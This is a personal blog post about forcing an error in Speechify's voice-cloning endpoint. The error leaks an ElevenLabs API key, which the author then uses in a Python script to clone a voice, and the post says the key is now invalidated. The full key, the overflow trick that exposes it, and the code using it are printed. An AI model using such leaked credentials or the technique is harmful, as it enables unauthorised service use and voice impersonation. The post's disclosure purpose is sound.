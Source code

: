 ```yaml
---
title: Speechify voice cloning API key leakage
layout: post
---
```


![speechify-logo](/assets/speechify-logo.png)

# Introduction
Yesterday, I came across a video on Youtube of a guy using an AI Voice cloning service to impersonate and troll people on the popular GTA5 modification framework known as FiveM.

It was pretty funny to watch because he was doing this on roleplay servers and, as you may already know, there are rules to follow and people tend to get into arguments frequently. 

<center><iframe width="700" height="450" src="https://www.youtube.com/embed/yvLb6gkPYgw" title="EDITING clips with Ai to get an ADMIN FIRED!" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe></center>

Put simply, he would record a sample of the voice to clone and use the ElevenLabs voice cloning service to make them say things they never meant to.

# ElevenLabs AI Voice cloning
Next thing you know, I am looking at the plans that ElevenLabs offers, I wanted to play with it a little and see how accurate it really is but didn't feel like spending the 22$ (at the time), and started looking for an alternative.

![elevenlabs-prices](/assets/elevenlabs-prices.png)

# Speechify AI Voice cloning
The alternative I was looking for turned out to be Speechify as they offer a free trial version of the service, the only issue with it is that you can't change the text without upgrading your plan, making it look useless at first.

![speechify-interface](/assets/speechify-interface.png)

After playing a little with the text I noticed that the only character you are allowed to add are spaces, adding any other character would result in an annoying `upgrade for full access` message.

![annoying-message](/assets/annoying-message.png)

The next thing I tried was adding a lot of spaces and seeing how the endpoint would reply, after the text reaches the size of 5500 characters the endpoint replies with code 500 and greets us with the following data.

```
HTTP/2 500 Internal Server Error
Cache-Control: public, max-age=0, must-revalidate
Content-Type: application/json; charset=utf-8
Date: Tue, 05 Dec 2023 22:23:27 GMT
Etag: "qexsok88sj5k7"
Server: Vercel
Strict-Transport-Security: max-age=63072000
X-Matched-Path: /api/tts/clone
X-Vercel-Cache: MISS
X-Vercel-Id: fra1::iad1::jwvvj-1701815001593-c964271a4111
Content-Length: 7207

{
  "message": "Request failed with status code 400",
  "name": "AxiosError",
  "stack": "at ClientRequest.emit (node:domain:489:12)\n at HTTPParser...",
  "config": {
    "headers": {
      "Accept": "application/json, text/plain, */*",
      "Content-Type": "application/json",
      "xi-api-key": "a67a36e2011cf31e21343adb66f46ca2",
      "User-Agent": "axios/1.4.0",
      "Content-Length": "5611",
      "Accept-Encoding": "gzip, compress, deflate, br"
    },
    "params": {
      "optimize_streaming_latency": 3
    },
    "responseType": "stream",
    "method": "post",
    "url":"https://api.elevenlabs.io/v1/text-to-speech/voice_id"
  },
  "code": "ERR_BAD_REQUEST",
  "status": 400
}
```

Great! an ElevenLabs API key seems to have been leaked, now all that's left to do is read the ElevenLabs documentation and use the api key to access the voice cloning service using their python library.

```python
from elevenlabs import clone, generate, play
from elevenlabs import set_api_key

api_key = 'a67a36e2011cf31e21343adb66f46ca2'
set_api_key(api_key)

voice = clone(
  name="nekka",
  files=["./sample.mp3"],
)

audio = generate(text="hi! how you doing?",
                 voice=voice, 
                 model='eleven_multilingual_v2')

audio_file = open('output.mp3', 'wb')
audio_file.write(audio)
audio_file.close()
```

After running the script we get our `output.mp3` file containing the result!

![output-file](/assets/voice-clone-files.png)

# Conclusion
After finding out about this, I sent them an email however I never received a reply. However, as of now, it appears that the leakage has been resolved, and the API key has been invalidated.